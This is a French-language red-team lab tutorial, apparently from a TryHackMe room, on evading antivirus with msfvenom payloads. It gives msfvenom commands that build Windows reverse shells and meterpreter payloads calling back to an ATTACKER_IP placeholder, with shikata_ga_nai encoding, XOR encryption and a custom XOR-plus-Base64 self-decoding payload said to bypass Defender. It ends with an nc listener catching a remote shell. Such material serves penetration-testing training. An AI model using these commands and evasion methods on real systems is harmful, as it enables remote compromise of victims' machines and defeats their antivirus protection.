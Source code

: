 ## Encoder avec MSFVenom

Les outils publics tels que Metasploit fournissent des fonctionnalités d'encodage et de cryptage. Cependant, les fournisseurs audiovisuels sont conscients de la manière dont ces outils créent leurs charges utiles et prennent des mesures pour les détecter. Si vous essayez d'utiliser de telles fonctionnalités dès le départ, il est probable que votre charge utile soit détectée dès que le fichier touche le disque de la victime.

Générons une charge utile simple avec cette méthode pour prouver ce point.  Tout d'abord, vous pouvez lister tous les encodeurs disponibles pour msfvenom avec la commande suivante :

Liste des encodeurs dans le framework Metasploit

```
user@AttackBox$ msfvenom --list encoders | grep excellent
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```

Nous pouvons indiquer que nous voulons utiliser l' `shikata_ga_nai`encodeur avec le `-e`commutateur (encoder), puis spécifier que nous voulons encoder la charge utile trois fois avec le `-i`commutateur (itérations) :

Encodage à l'aide du framework Metasploit (Shikata_ga_nai)

```
user@AttackBox$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai chosen with final size 422
Payload size: 422 bytes
Final size of csharp file: 2170 bytes
```

Si nous essayons de télécharger notre charge utile nouvellement générée sur notre machine de test, l' AV la signalera instantanément avant même que nous ayons la possibilité de l'exécuter :

![747c69e737c96044123329c47845f659](https://github.com/dsgsec/Red-Team/assets/82456829/e84560d5-c0cb-43bf-8b2e-bc3440be8d42)


Si le codage ne fonctionne pas, nous pouvons toujours essayer de chiffrer la charge utile. Intuitivement, nous nous attendrions à ce que cela ait un taux de réussite plus élevé, car le décryptage de la charge utile devrait s'avérer une tâche plus difficile pour l' AV . Essayons ça maintenant.

## Chiffrement à l'aide de MSFVenom

Vous pouvez facilement générer des charges utiles cryptées à l'aide de msfvenom. Les choix en matière d'algorithmes de chiffrement sont cependant un peu rares. Pour lister les algorithmes de chiffrement disponibles, vous pouvez utiliser la commande suivante :

Liste des modules de chiffrement dans Metasploit Framework

```
user@AttackBox$ msfvenom --list encrypt
Framework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor
```

Créons une charge utile chiffrée XOR. Pour ce type d'algorithme, vous devrez spécifier une clé. La commande ressemblerait à ceci :

Xoring Shellcode à l'aide du framework Metasploit

```
user@AttackBox$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: xored-revshell.exe
```

Encore une fois, si nous téléchargeons le shell résultant dans THM Antivirus Check ! page à `http://MACHINE_IP/`, il sera toujours signalé par l' AV . La raison est toujours que les fournisseurs d'antivirus ont investi beaucoup de temps pour garantir la détection de simples charges utiles msfvenom.

## Création d'une charge utile personnalisée

La meilleure façon de surmonter ce problème est d'utiliser nos propres schémas de codage personnalisés afin que l' AV ne sache pas quoi faire pour analyser notre charge utile. Notez que vous n'avez rien de trop complexe à faire, à condition que cela soit suffisamment déroutant pour que l'AV puisse l'analyser. Pour cette tâche, nous prendrons un simple shell inversé généré par msfvenom et utiliserons une combinaison de XOR et Base64 pour contourner Defender.

Commençons par générer un reverse shell avec msfvenom au format CSharp :

Générer un format de shellcode CSharp

```
user@AttackBox$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

## L'encodeur

Avant de créer notre charge utile réelle, nous allons créer un programme qui prendra le shellcode généré par msfvenom et l'encodera comme bon nous semble. Dans ce cas, nous allons d'abord effectuer un XOR sur la charge utile avec une clé personnalisée, puis l'encoder en base64. Voici le code complet de l'encodeur (vous pouvez également trouver ce code sur votre ordinateur Windows à l'adresse C:\Tools\CS Files\Encryptor.cs) :

*Code de charge utile complet (cliquez pour lire)*

Le code est assez simple et générera une charge utile codée que nous intégrerons dans la charge utile finale. N'oubliez pas de remplacer la `buf`variable par le shellcode que vous avez généré avec msfvenom.

Pour compiler et exécuter l'encodeur, nous pouvons utiliser les commandes suivantes sur la machine Windows :

Compilation et exécution de notre encodeur CSharp personnalisé

```
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
```

## Charge utile à décodage automatique

Puisque nous avons une charge utile codée, nous devons ajuster notre code pour qu'il décode le shellcode avant de l'exécuter. Pour faire correspondre l'encodeur, nous allons tout décoder dans l'ordre inverse dans lequel nous l'avons codé, nous commençons donc par décoder le contenu base64, puis continuons en effectuant un XOR sur le résultat avec la même clé que celle que nous avons utilisée dans l'encodeur. Voici le code complet de la charge utile (vous pouvez également l'obtenir sur votre ordinateur Windows à l'adresse `C:\Tools\CS Files\EncStageless.cs`) :

*Code de charge utile complet (cliquez pour lire)*

Notez que nous avons simplement combiné quelques techniques très simples qui ont été détectées lorsqu'elles étaient utilisées séparément. Pourtant, l' AV ne se plaindra pas de la charge utile cette fois-ci, car la combinaison des deux méthodes n'est pas quelque chose qu'il peut analyser directement.

Compilons notre payload avec la commande suivante sur la machine Windows :

Compilez notre charge utile cryptée

```
C:\> csc.exe EncStageless.cs
```

Avant d'exécuter notre charge utile, configurons un `nc`écouteur. Après avoir copié et exécuté notre charge utile sur la machine victime, nous devrions rétablir une connexion comme prévu :

Configurer l'écouteur nc

```
user@AttackBox$ nc -lvp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from ip-10-10-139-83.eu-west-1.compute.internal 49817 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32>
```

Comme vous pouvez le constater, de simples ajustements suffisent parfois. La plupart du temps, les méthodes spécifiques que vous trouvez en ligne ne fonctionneront probablement pas immédiatement, car des signatures de détection peuvent déjà exister pour elles. Cependant, faire preuve d'un peu d'imagination pour personnaliser n'importe quelle méthode pourrait s'avérer suffisant pour réussir un contournement.
